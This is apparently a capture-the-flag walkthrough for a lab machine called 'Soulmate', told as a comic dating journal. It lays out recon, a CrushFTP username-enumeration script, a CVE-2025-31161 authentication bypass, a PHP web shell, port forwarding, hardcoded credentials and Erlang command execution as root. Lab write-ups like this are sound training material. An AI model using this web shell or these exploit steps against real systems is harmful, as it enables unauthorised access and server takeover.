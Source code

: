 **The Matchmaker’s Journal**  

*September 07, 2025 – Somewhere deep in the binary alleys of the cyber-dating world, you’ve been invited to play Cupid. But beware—this dating app doesn’t just break hearts, it breaks servers. And today, you’ll unmask them all.*  

---

## 1. Setting the Stage: Reconnaissance  
You arrive at the doorstep of **Soulmate (10.10.11.86)**, a digital love factory.  
Naturally, you bring your trusty **nmap bouquet** to impress.  

```bash
nmap -p- -sV --min-rate 1000 -oA scans/soulmate-full 10.10.11.86
```

🎶 *Cue dramatic love song* 🎶  
Results reveal:  

- **22/tcp** SSH (OpenSSH 8.9p1)  
- **80/tcp** HTTP (nginx 1.18.0)  
- **4369/tcp** Erlang EPMD (Cupid’s creepy sidekick)  

You add an alias because typing IPs on a date is rude:  

```bash
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```

---

## 2. Crafting Your Profile: Web Enumeration  
You strut into [http://soulmate.htb](http://soulmate.htb/), where love is supposedly just a click away.  

- You **register** as `you@example.com / Passw0rd!` (classic).  
- You **log in** and peek at the **Profile → Edit** page.  

Options:  
- Name  
- Bio  
- Interests  
- Mobile  
- *And the juiciest part*: **Profile Picture Upload**  

Your hacker intuition whispers: *“File upload… the Tinder of vulnerabilities.”*  

---

## 3. Uncovering a Hidden Door: Subdomain Discovery  
But no dating site is complete without a secret “ex” lurking in the background.  
So you fire up **ffuf**:  

```bash
ffuf -u http://soulmate.htb -H 'Host: FUZZ.soulmate.htb'      -w /usr/share/seclists/Discovery/DNS/big.txt -fs 154
```

💔 Surprise! You find **ftp.soulmate.htb**—a CrushFTP instance.  

```bash
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```

---

## 4. Bypassing Security: CrushFTP Exploit  

### 4.1 Username Probing  
You go fishing for names like a desperate stalker scrolling LinkedIn.  

```python
# probe_crushftp.py
import requests
for user in open('/usr/share/seclists/Usernames/top10000.txt'):
    r = requests.post('http://ftp.soulmate.htb/WebInterface/function/',
                      data={'command':'login','username':user.strip(),'password':'x'})
    if 'Invalid password' in r.text:
        print(f"Valid user: {user.strip()}")
```

🎉 Results: `admin` and `root`. Jackpot!  

### 4.2 CVE-2025-31161: Authentication Bypass  
Turns out Cupid forgot to patch. You slip past like a smooth operator:  

```bash
python3 cve-2025-31161.py   --target_host ftp.soulmate.htb --port 80   --target_user admin --new_user matcher --password MatchMe123
```

Congratulations—you’re now the **admin of love**.  

---

## 5. Uploading Your First “Match”: Web Shell  

- You log in as **matcher / MatchMe123**.  
- Give yourself upload rights in `webProd`.  
- Time to woo the server with a shiny new shell:  

```php
<?php if(isset($_REQUEST['cmd'])) {
  echo "<pre>";
  system($_REQUEST['cmd']);
  echo "</pre>";
} ?>
```

Upload → **shell.php**.  

Check:  

```bash
curl 'http://soulmate.htb/shell.php?cmd=id'
```

Response: `uid=33(www-data)`  
✨ You’re officially inside. ✨  

---

## 6. Land of Scripts: Securing an Interactive Shell  

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl-Z
stty raw -echo; fg
export TERM=xterm
```

Now you’re **www-data** with full TTY powers.  

---

## 7. Encountering Erlang: Hidden Service  

You poke around and notice Erlang lurking:  

```bash
ss -plnt | grep 4369
```

Ah yes, Erlang’s love dungeon at **127.0.0.1:2222**.  

---

## 8. Crafting a Bridge: socat Port Forwarding  

```bash
socat TCP-LISTEN:3333,reuseaddr,fork TCP:127.0.0.1:2222 &
```

From Kali:  

```bash
ssh -p 3333 ben@10.10.11.86
```

But… 💔 Wrong password.  

---

## 9. Discovering Hardcoded Credentials  

Every dating app has skeletons in its closet. You grep:  

```bash
grep -R "passwd" -n /usr/local/lib/erlang_login
```

And discover inside `start.escript`:  

```
{username, "ben"}.
{password, "HouseH0ldings998"}.
```

Cupid really should’ve used a password manager.  

---

## 10. Ringing the Bell: Erlang SSH to Root  

```bash
ssh -p 3333 ben@10.10.11.86
```

Inside Erlang shell:  

```erlang
os:cmd("id").
```

Response: `uid=0(root) gid=0(root)`  
💍 You popped the question, and the server said **YES**. Rooted.  

---

## 11. Claiming the Flags  

### 11.1 User Flag  

```erlang
os:cmd("cat /home/ben/user.txt").
```

➡️ **User flag found (hidden for spoilers).**  

### 11.2 Root Flag  

```erlang
os:cmd("cat /root/root.txt").
```

➡️ **Root flag found (hidden for spoilers).**  

---

## Epilogue  

And so, you close **The Matchmaker’s Journal**.  

Soulmate wasn’t about love—it was about:  
- Upload filters forgotten like bad first dates  
- Hardcoded secrets (seriously, Ben? HouseH0ldings998?)  
- Local services exposed like awkward DMs  

You leave with two flags in hand and one lesson in heart:  

**In hacking, as in dating, never trust the first profile picture.**  
